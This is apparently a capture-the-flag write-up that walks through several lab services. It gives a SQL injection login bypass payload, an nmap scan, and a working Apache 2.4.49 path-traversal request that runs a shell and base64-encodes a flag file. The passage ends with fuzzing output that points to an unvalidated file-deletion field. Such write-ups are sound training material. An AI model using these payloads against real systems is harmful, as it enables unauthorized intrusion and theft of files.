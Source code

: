 ### Port 11111 \[Web]

This was a simple SQL injection in the login. The payload `username=admin&password=' or '1` grants us access.

### Port 12380 \[Web]

Our scan shows that this is a vulnerable version of Apache.

```
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-04 05:02 UTC
Nmap scan report for 172.17.17.69
Host is up (0.00049s latency).

PORT      STATE SERVICE VERSION
12380/tcp open  http    Apache httpd 2.4.49 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.49 (Debian)
```

{% embed url="https://www.exploit-db.com/exploits/50383" %}

We can exploit the RCE vulnerability to obtain the contents of the flag.

```http
GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh HTTP/1.1
Host: localhost:8000
Content-Type: text/plain
Content-Length: 71

echo Content-Type: text/plain; echo; cat /secret/safe/flag.png | base64
```

### Port 15000 \[Pwn]

This was a TCP service that we could interact with via Netcat, and appears to be managing text files.

The "Create" option allows us to create a text file in the format `NAME_SURNAME.txt`. Validation is performed so that both fields are alphanumeric characters only.

The "Delete" option allows us to delete a file, similarly by entering the name and surname. However, after some fuzzing, we found that the surname wasn't properly validated.

```
Input: 4

Deleting a student with the following details:
Student name: 
Student surname: hihi.txt'
Invalid characters entered.

Found student file: _hihi.txt'.txt
Deleting...
Something went wrong! Contact your local administrator.
```

